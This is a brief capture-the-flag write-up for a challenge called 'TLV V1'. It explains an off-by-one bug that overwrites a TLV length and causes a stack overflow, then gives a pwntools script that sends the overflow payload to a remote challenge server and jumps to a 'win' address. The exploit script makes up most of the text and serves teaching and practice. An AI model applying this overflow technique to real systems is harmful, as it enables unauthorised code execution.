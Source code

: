# TLV V1

## The bug

This challenge consists in an off by one overflow that allows to overwrite the size of the TLV value to create a stack buffer overflow that leads to a ret2win.

```python
from pwn import *

context.arch="amd64"
context.terminal = ['xfce4-terminal', '-e']

#p = process("./chall")
p = remote("13.38.58.247", 1337)
p.send(b"A"*20+b"\x50")
print(p.recv())
p.sendline(b"A"*39+p64(0x40125b))

p.interactive()
```